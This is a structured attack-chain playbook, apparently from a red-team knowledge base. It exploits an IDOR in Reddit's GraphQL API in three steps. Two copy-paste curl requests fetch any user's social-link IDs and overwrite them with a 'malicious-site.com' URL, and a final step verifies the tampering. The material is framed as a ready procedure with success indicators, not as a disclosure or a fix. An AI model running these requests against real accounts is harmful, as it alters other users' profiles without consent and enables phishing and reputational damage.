

---
tags:
  - idor
  - graphql
  - reddit
  - api
  - web
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-01-01T12:00:00Z'
procedures:
  - '[[procedures/Fetch-Reddit-User-Social-Links-via-IDOR]]'
  - '[[procedures/Modify-Reddit-User-Social-Link-via-IDOR]]'
  - '[[procedures/Verify-Social-Link-Modification-on-Reddit-Profile]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:25:48.159Z'
description: >-
  An authenticated attacker exploits an Insecure Direct Object Reference (IDOR)
  in Reddit's GraphQL API to fetch and modify social links of any user,
  potentially linking to malicious sites or damaging reputation.
skill_level: intermediate
impact_level: high
id: 802c95a9-c805-4769-a1f5-e0f8eff337eb
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# IDOR in Reddit GraphQL API to Modify Any User's Social Links

Multi-stage attack chain demonstrating exploitation of an IDOR vulnerability in Reddit's GraphQL API, allowing authenticated users to access and alter social profile links of arbitrary users without authorization checks.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Reddit's web platform
- GraphQL API at https://gql.reddit.com/
- Authenticated Reddit account

### Initial Access Requirements

- Valid Reddit authentication token (Bearer token)
- Network access to Reddit's API
- No prior access to target user needed

## Detailed Attack Procedures

### Step 1: Fetch Social Links
procedure: [[procedures/Fetch-Reddit-User-Social-Links-via-IDOR]]

**Objective**: Retrieve social link IDs for a target user by querying the GraphQL API with their username, exploiting lack of authorization on fetches.

**Instructions**: Use [[commands/graphql-fetch-reddit-social-links]] to send a POST request to the GraphQL endpoint with the target username.

```bash
curl -X POST https://gql.reddit.com/ \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"id":"11a239b07f86","variables":{"username":"targetuser"}}'
```

**Expected Output**: JSON response containing the user's social links array with unique 'id' values for each link.

**Success Indicators**:
- Response includes 'socialLinks' array with IDs
- No authorization error for arbitrary username

### Step 2: Modify Social Link
procedure: [[procedures/Modify-Reddit-User-Social-Link-via-IDOR]]

**Objective**: Update a social link using the extracted ID, replacing the URL, title, and type without ownership verification.

**Instructions**: Use [[commands/graphql-modify-reddit-social-link]] with the extracted ID and new link details.

```bash
curl -X POST https://gql.reddit.com/ \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"id":"c558e604581f","variables":{"input":{"socialLinks":[{"outboundUrl":"https://malicious-site.com","title":"Fake Link","type":"CUSTOM","id":"extracted_id_here"}]}}}'
```

**Expected Output**: JSON response indicating successful mutation (e.g., no errors).

**Success Indicators**:
- Mutation succeeds without ownership check
- No error response from API

### Step 3: Verify Modification
procedure: [[procedures/Verify-Social-Link-Modification-on-Reddit-Profile]]

**Objective**: Confirm the changes are reflected on the target user's profile page.

**Instructions**: Manually refresh the target user's Reddit profile page or use a browser to check social links section.

**Expected Output**: Updated social links visible on https://www.reddit.com/user/targetuser.

**Success Indicators**:
- New link appears with malicious URL/title
- Original link replaced or modified

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to any user's social link IDs
2. Modification of profile links to malicious content
3. Potential for phishing or reputation damage across Reddit users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2024-01-01T12:00:00Z*
